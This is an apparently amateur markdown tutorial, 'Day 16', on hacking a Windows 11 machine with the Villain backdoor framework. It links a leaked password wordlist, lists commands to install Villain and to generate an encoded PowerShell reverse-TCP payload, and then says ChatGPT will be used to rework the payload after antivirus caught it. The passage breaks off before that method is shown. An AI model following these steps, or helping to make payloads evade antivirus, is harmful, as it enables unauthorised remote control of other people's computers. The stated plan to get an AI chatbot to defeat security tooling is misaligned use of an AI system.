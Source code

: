 # ♦ Day 16
</br>
</br>

## ◙ ***Note***
 </br>
  There is an update in rockyou.txt file containing a far better number of word combinations 
  </br>
  
  ⇨ [Rockyou.txt](https://github.com/hkphh/rockyou2024.txt)
 </br>
# ♦ Hacking Windows 11 :
   ***• Introducing Villan Framework***
   </br>
      Villain is a Windows & Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, handy for working as a team. [Villan](https://github.com/keralahacker/Villain/)
   </br>
   ⇨ In this Sessioin we will be learning to how to use Villan framework to get into OR Hack a Windows 11 device 
   </br>
   </br>
### ◙ Step-By-Step Guide 
</br >

### • 1. Installation of Villan Framework :

    git clone https://github.com/t3l3machus/Villain
    cd ./Villain
    pip3 install -r requirements.txt

• Now add the x parameter in the file and exicute it:

    chmod +x villan.py

• Now exicute with python

    python3 villan.py

> For details use "help" command


### • 2. Generate a paylaod : 

 To understand how to generate a paylaod we will use the command 

    help generate

• Generate a paylaod from the example for the wwindows

    generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode

 Now try runing the generated payload in powershell

</br>

***◙ Improving the Payload***
 As we can see that the paylaod has been shot down by the AV so we have to do some changes in tht so it can't be detected by the AV.
 </br>
 • For doingb such changes we will be using Our beloved ***"CHAT GPT"*** in such a manner >
